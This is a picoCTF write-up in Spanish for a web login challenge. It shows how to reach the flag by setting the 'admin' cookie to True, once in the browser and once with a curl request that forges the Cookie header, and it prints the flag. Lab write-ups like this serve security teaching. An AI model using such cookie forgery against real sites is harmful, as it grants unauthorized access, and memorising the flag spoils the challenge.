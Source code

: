 ### Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

Hints:
1. Hmm it doesn't seem to check anyone's password, except for Joe's?

### Solución
Primero es necesario ingresar con el usuario joe y password joe pero aún no se muestra la flag.
Después, al inspeccionar la página hay que ir al apartado de Application, después a ver las cookies para modificar el admin de False a True y finalmente se recarga la página para ver los cambios realizados.

Ahora se muestra lo siguiente:
**Flag**: `picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}`

**Solución 2**
Usando Webshell:

```
Sebas115-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: usernn; password=juan; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   4871      0 --:--:-- --:--:-- --:--:--  4859
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>      
```

picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

### Notas adicionales


### Referencias
https://webshell.picoctf.org/